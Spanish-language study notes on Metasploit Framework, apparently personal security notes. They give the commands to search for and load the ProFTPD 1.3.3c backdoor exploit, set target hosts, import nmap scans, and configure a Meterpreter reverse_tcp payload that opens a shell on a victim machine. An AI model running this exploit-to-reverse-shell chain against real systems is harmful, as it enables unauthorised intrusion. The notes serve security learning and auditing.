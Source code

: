 Metasploit framework es una herramienta desarrollada en Perl y Ruby en su mayor parte, que está **enfocada a auditores de seguridad y equipos Red Team y Blue Team**.

**Es una herramienta muy completa que tiene muchísimos exploits**, que son vulnerabilidades conocidas, en las cuales tienen también unos módulos, llamados [[Payload]], que son los códigos que explotan estas vulnerabilidades.

También **dispone de otros tipo de módulos**, por ejemplo, los encoders, que son una especie de códigos de cifrado para evasión de antivirus o sistemas de seguridad perimetral.

## Uso
	msfdb run
Esto crear la base de datos y el usuario, es decir inicializa la herramienta, *esto solo se ejecuta cuando no hemos hecho uso de esta.*

	msfconsole
Ejecuta el framework de mestasploit

	searchsploit ProFTP 1.3.3.c
Lo que hace es buscar meta sploit que sean vulnerables para la versión del servicio.

-ProFTP 1.3.3.c *es la versión del servicio donde queremos buscar vulnerabilidades*

	use xploit/unix/ftp/proftpd_133c_backdoor
Usa el Metasploit que se esta en la siguiente ruta

	show options
Muestra los datos que debemos de introducir en el sploit que queremos utilizar

	set RHOSTS 192.168.1.68
Esto sirve para setear valores que el sploit nos pide

-RHOSTS *Es el nombre del parámetro que es requerido por el sploit*
-192.168.1.68 *Es el valor el valor que le damos al parámetro RHOSTS*

**Parámetros**
-x *Muestra el archivo*

## nmap
Ahora podemos realizar escaneos dentro de metasploit con la finalidad de facilitar el uso entre metasploit, ya que podemos visualizar todo la informacion del escaneo.

También podemos tomar una db que contenga todos los datos de un scan e importarlo a metasploit.

	nmap -sP 192.168.1.0/24 -oX scan-result.xml

-oX *Guarda el resultado en un archivo XML*

	db_import scan-result.xml
Este es el formato adecuado para importar la informacion a metasploit.

	hosts
Visualizar los escaneos 

	services
Visualizar los servicios que corren en un determinado escaneo


## Creación de listener
Ahora cuando un exploits nos permite la ejecución remota de comando, la mayoría de las veces nos enviamos una Shell por tcp a nuestra maquina de forma manual con *netcat* pero esto se puede hacer desde metasploit.

Una vez que ya configuramos las opciones del exploit procederemos a cargar un [[Payload]] que defina una ruta en escucha para recibir la shell desde la maquina victima.

	set payload windows/meterpreter/reverse_tcp

Ahora por lo tanto hay que establecer las opciones para el payload, en este caso la ip y puerto que estará en escucha.

	set LHOST 192.168.1.73
	set LPORT 443

En caso de ser exitoso la explotación podremos visualizar algo así como, y ya estaríamos dentro de la maquina victima ,para obtener una consola interactiva solo faltaría el comando SHELL.

	[!] Meterpreter session 1 openend
	meterpreter> shell


